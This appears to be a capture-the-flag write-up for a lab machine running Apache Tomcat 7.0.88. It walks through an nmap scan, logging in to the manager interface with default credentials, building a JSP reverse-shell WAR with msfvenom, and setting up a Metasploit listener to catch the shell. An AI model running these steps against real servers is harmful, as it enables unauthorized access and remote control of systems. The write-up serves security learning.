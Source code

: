 # Enumeration

The first step is to run an nmap scan to gewt an idea of what services are running on the machine.

```
nmap -sV -sC -Pn --reason --open 10.10.10.95
Starting Nmap 7.70 ( https://nmap.org )
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 4.05% done; ETC: 12:48 (0:00:47 remaining)
Nmap scan report for 10.10.10.95
Host is up, received user-set (0.046s latency).
Not shown: 999 filtered ports
Reason: 999 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON  VERSION
8080/tcp open  http    syn-ack Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

There is only one port open in the top 100, port 8080. The nmap script results (from the -sC flag) reveal that this is running Apache Tomcat 7.0.88.

A bit of internet research will reveal there is a web interface under /manager/html. Further internet research will uncover the default credentials for Apache Tomcat.

We now have access to the web interface. This administative interface has file upload functionality which we can abuse to gain a shell. Under the deploy section, we have the ability to upload a .war file. A suitable payload can be generated using msfvenom:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Your IP] LPORT=4444 -f war > ~/Desktop/reverse.war`

We need to create a listener using Metasploit to catch the reverse shell. Within the Metasplot Framework set the following options:

```
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST [Your IP]
set LPORT 4444 (if it's not already set)
exploit
```

Now upload and deploy the .war file and you will get a shell. Both of the flags (user.txt and root.txt) will be in the Desktop folder so no privesc is required!
